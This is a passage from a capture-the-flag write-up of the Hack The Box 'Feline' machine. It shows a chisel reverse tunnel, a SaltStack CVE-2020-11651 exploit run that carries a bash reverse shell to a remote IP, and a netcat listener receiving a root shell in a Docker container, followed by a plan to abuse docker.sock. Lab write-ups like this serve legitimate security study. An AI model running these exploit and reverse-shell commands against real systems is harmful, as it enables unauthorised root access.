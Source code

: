      `make sure to start chisel on your machine`

```shell
┌─[oxy@oxy]─[~/tools]
└──╼ $./chisel server -p 1234 --reverse
2020/10/05 16:18:30 server: Reverse tunnelling enabled
2020/10/05 16:18:30 server: Fingerprint 15:58:bc:2a:f9:48:07:84:14:84:6f:0c:e2:e8:10:76
2020/10/05 16:18:30 server: Listening on http://0.0.0.0:1234
```
 install salt `pip3 install salt` if not aready instaled. salt module
 will require to exploit our poc. download exploit.py from [**Here**](https://github.com/jasperla/CVE-2020-11651-poc) 


 run the exploit `python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1"'`
 
```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1"'
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
[+] Checking salt-master (127.0.0.1:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: Y+tBggUuWme0O2NLo3J9t3IvdcJ2CfDFC+G+1nLgiFe+9J7Jsjz4rW1zOJhUIk8pCBiJgBHrFwU=
[+] Attemping to execute bash -c "bash -i >& /dev/tcp/10.10.14.68/7001 0>&1" on 127.0.0.1
[+] Successfully scheduled job: 20201005105710964929
```

### Inside Docker

```shell
─[oxy@oxy]─[~/tools]
└──╼ $nc -lnvp 7001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::7001
Ncat: Listening on 0.0.0.0:7001
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:42700.
bash: cannot set terminal process group (2070): Inappropriate ioctl for device
bash: no job control in this shell
root@2d24bf61767c:~# whoami
root
root@2d24bf61767c:~# ls
todo.txt
root@2d24bf61767c:~# cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.

```
we got the shell. found a `todo` ,its look  we are inside a docker container.in bash history we are given docker.sock which is odd and this docker is running SSH server.
now we will be create a new docker image and mount all data from previous one to here including root files
